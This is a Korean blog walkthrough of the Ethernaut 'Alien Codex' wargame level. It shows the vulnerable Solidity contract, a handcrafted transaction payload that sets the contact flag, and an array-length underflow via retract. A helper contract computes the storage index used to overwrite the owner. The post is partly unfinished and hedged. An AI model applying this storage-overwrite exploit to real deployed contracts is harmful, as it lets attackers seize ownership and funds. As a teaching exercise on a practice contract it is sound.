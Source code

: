 문제 해설에 들어가기 전,  이더넛 내에서 콘솔창과 상호작용을 할 줄 알고 기본적인 리믹스 및 메타마스크 사용법이 숙지되어 있다는 가정 하에 해설을 진행합니다. 필자의 풀이 방법이 절대적은 풀이 방법은 아니므로 이 점 참고하시기 바랍니다.

![대표이미지](https://github.com/heuristicwave/TIL-about-Blockchain/blob/master/OpenZeppelin/ethernaut/Heuristic%20Wave%20Ethernaut.png?raw=true)



## Alien Codex Problem



이번에도 역시 주어진 조건을 읽어보자. 필자의 초월해석이 담겨 있기 때문에, 원문을 직접 읽는 것이 제일 좋다. 이번 문제는 내 힘으로 푼것이 거의 아니,, 없다. 오랜만이라는 핑계를 대고 싶지만, 아직 부족해서 https://ylv.io/ethernaut-alien-codex-solution/ 에 포스팅된 해설을 해석해가며 이해한대로 써내려관 결과물이다. 내가 최대한 이해하려고 애쓴, Igor Yalovoy의 풀이에 덧붙인 설명 시작! (사실, Igor Yalovoy의 풀이에도 약간의 잘못된 부분이 있다..)

또한, 이번단계를 들어가기 앞서서 필자가쓴 [EVM Storage](https://medium.com/@heuristicwave/evm-storage%EC%97%90%EB%8A%94-%EC%96%B4%EB%96%BB%EA%B2%8C-%EB%B3%80%EC%88%98%EA%B0%80-%EC%A0%80%EC%9E%A5%EB%90%A0%EA%B9%8C-%EC%A0%80%EC%88%98%EC%A4%80%EC%97%90%EC%84%9C-%ED%99%95%EC%9D%B8%ED%95%98%EB%8A%94-storage-%EC%98%81%EC%97%AD-71dc3a6da8e2)에 관한 글의 내용이 숙지되어 있다는 가정하에 설명을 하겠다.



Alien 컨트랙트를 찾았다. 오너십을 주장하여 이번단계를 해결하자!

- 어떻게 배열이 저장되는지 이해하여야 한다.
- ABI의 특징들을 이해해야 한다.
- Using a very `underhanded` approach (무슨말인지 잘 모르겠다)





### 코드 분석



#### AlienCodex.sol

```javascript
pragma solidity ^0.4.24;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact(bytes32[] _firstContactMessage) public {
    assert(_firstContactMessage.length > 2**200);
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

코드를 봐도 무슨말인지 모르겠다. 그러나, remix에서 주어진 instanceAddress를 넣고 불러와보니 현재, contact의 값은 false인 상태고 record, retract, revise 3개의 함수 모두 contacted라는 modifier를 가지고 있다. 여기서 make_contact로 contact의 값을 true로 먼저 바꿔야지 다른 함수들이 접근 가능하다는 것을 알 수 있다.

그 다음 3개의 함수를 보니 이전 문제들과는 다르게 오너를 바꾸는 함수가 존재 하지 않는다. 각각의 기능을 살펴보면 record에서는 동적할당된 배열에 _content를 넣고, retract에서는 배열의 길이에서 1을 빼고, revise에서는 2개의 인자를 받아 해당 인자값위치의 배열을 _content로 쓴다. 힌트와 조합하여 생각해보면, 어떤 동적배열이 오너와 관련이 있을 것이고 그배열을 revise함수를 사용하여 나의 주소값을 넣으면 해결이 될 것 같다는 느낌적인 느낌이 든다.





### 문제 풀이 과정



우선, contact를 true로 변환해 보자!

(_firstContactMessage.length > 2**200) 의 조건을 맞추면, contact의 값이 true로 바뀐다. 메시지의 길이가 2^200보다 크면 성공한다는 조건에 다음과 같은 트랜잭션을 보낼수 있는 코드를 작성했다. 

```
sendTransaction({to: "0x2abc6d922d6c6413adfc826ff4c5669ce9dd6bed", data: "0x1d3d4c0b00000000000000000000000000000000000000000000000000000000000000201000000000000000000000000000000000000000000000000000000000000000", from: "0x344FbEe17c2d215D364EC5943Bc4a0c7030cfaA1", gas: 900000});
```

to는 InstanceAddress에 해당하고 data 부분에 payload에 해당하는 부분의 16진수data를 넣으면된다. 우리는 make_contact라는 함수를 호출할것이기 때문에, ABI에서 해당하는 functionSelector를(1d3d4c0b) 찾자!  우리는 데이터 값을 넣기위해서 OPCODE를 16진수로 변환한 (0x20)도함께 넣을 것이다. 이어서, 2의 200제곱은 (1606938044258990275541962092341162602522202993782792835301376) 이다. 이것을16진수로 표현하면 0x100000000000000000000000000000000000000000000000000 (0이50개)이기 때문에 이것보다 길이가 길면된다. EVM슬롯하나의 크기는 32byte로 64글자를 채우기위해 부족한만큼 0을 채워 data를 만들면 된다.

![alienCodex01](https://github.com/heuristicwave/TIL-about-Blockchain/blob/master/img/alienCodex01.png?raw=true)

위 사진처럼 트랜잭션을 일으키는 코드를 콘솔창에 넣어 보내면, 메타마스크창에 오는 알림에서 오류를 확인할 수 있는데 가스값을 바꾸어 트랜잭션을 만들면된다.



> 내가 참고한 자료에서는 1뒤에 0을 63개를작성해서 64자리를 만들었다
>
> 0x100000000000000000000000000000000000000000000000000
>
> 2의 256제곱보다 크면 가능할 줄 알고
>
> 0x010000000000000000000000000000000000000000000000000 로도 트랜잭션을 만들었는데 false값을 바꾸지 못했다. 정확한 이유를 모르겠다. 일단은 참고한 자료대로 true 값을 얻어내어 진행했다.



위 과정을 통해 우리는 contact의 값을 true로 바꾸었고, modifier가 붙어있는 함수를 호출할 수 있다. retract()를 살펴보면 동적배열의 길이에 1을 빼주는데, underflow, overflow를 검사하는 코드가 없다는 것을 알 수 있다.  이 함수를 호출하여 codex의 길이를 2^256 - 1 만큼의 길이로 변환시켜야다. [솔리디티에서는 uint256의 경우 0 ~ 2^256 -1 사이로 범위를 제한한다.](https://solidity.readthedocs.io/en/develop/frequently-asked-questions.html?highlight=2**256#what-does-the-following-strange-check-do-in-the-custom-token-contract) 이 약점을 통해 EVM의 스토리지 길이를 codex의 길이로 설정하여 우리는 EVM 스토리지의 모든 슬롯을 수정할수 있게 될 것이다.

AlienCodex가 배포된 첫번째 Storage에는 맨처음 변수를 선언했던 정보가 저장되어 있을 것이다. 슬롯 하나의 크기는 32바이트인데, 선언된 정보가 각각 1바이트와 20바이트로 슬롯하나의 크기보다 작기때문에 첫번째 슬롯에 함께 저장된다.

```javascript
bool public contact;	// 1byte
bytes32[] public codex;	// 20byte
```

위의 가정은 다음과 같은 web3라이브러리를 활용한 메시지로 확인할 수 있다.

콘솔창에서 아래 코드를 입력하면 alert창에 0번째 슬롯의 정보가 나온다.

```javascript
web3.eth.getStorageAt("0x2abc6d922d6c6413adfc826ff4c5669ce9dd6bed", 0, function(err, res) {alert(res)})

=>0x00000000000000000000000173048cec9010e92c298b016966bde1cc47299df5
```

이어서 위 코드에서 2번째 슬롯을 조회해보면 다음과 같은 값을 얻을 수 있다. (codex의 길이)

```javascript
web3.eth.getStorageAt("0x2abc6d922d6c6413adfc826ff4c5669ce9dd6bed", 1, function(err, res) {alert(res)})

=>0x0000000000000000000000000000000000000000000000000000000000000001
```

현재 codex의 길이가 1이므로 retract함수를 호출하여 길이를 줄이자. 우리가 원하는 길이는 2^256 - 1 이므로 retract함수를 2번 호출하면 된다. 2번 호출이후 codex의 길이를 조회하면 우리가 원하는 상태인 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff의 결과값을 반환한다.

여기까지 revise(내 주소로 owner대체)를 호출할 준비를 마쳤다. revise함수는 uint i와 bytes32 _content를 매개변수로 받는데, 여기서 첫번째 인자 i는 owner가 저장된 슬롯위치의 해시값이 들어가고 2번째인자는 owner가 될 주소인 나의 주소가 될 것이다.

revise함수를 호출하기 위해 첫번째 인자 i를 알아보자!

해시값을 구하기 위해 jvm환경에서 아래 코드를 복사하여 배포해보자.

```
pragma solidity ^0.4.24;

contract Calc {
    bytes32 public one;
    uint public index;
    
    function getIndex() {
        one = keccak256(bytes32(1));
        index = (2 ** 256 -1) - uint(one) + 1;
    }
}
```

변수 one은 첫번째슬롯의 위치를 나타낸다. 

index에서 -1, +1을 해준이유는, evm의 슬롯의 길이가 2^256에서 빼려면 리믹스에서 컴파일이 되지 않기 때문에, 2^256에서 1을 먼저 빼서 계산한 뒤에 보정값 1을 넣어 코드를 작성했다. 



처음 AlienCodex.sol의 정보가 배포되었을 때, 오너의 값과 함께 어딘가에 저장되어 있을 것이다.



![alienCodex02](https://raw.githubusercontent.com/heuristicwave/TIL-about-Blockchain/master/img/alienCodex02.png) 

ㅏㅏㅏ

![alienCodex03](https://github.com/heuristicwave/TIL-about-Blockchain/blob/master/img/alienCodex03.png?raw=true)













3달전 마지막으로 19번 문제를 풀고 기말고사 준비로 손을 놓고 있다보니, 다시 머리를 쓰기가 무척이나 힘들었다. (이게 다 게으름 때문이지만...) 최근 들어 구글링을 해보니 나 말고도 문제풀이를 올리시는 분들이 보이기 시작했다. 어서 빨리 나도 연재를 끝내야지....  3달 동안 내 실력도 많이 늘어 이전문제에 대한 풀이 방법이 부끄럽게 느껴진다. 



21번 문제 Denial에서 만나요!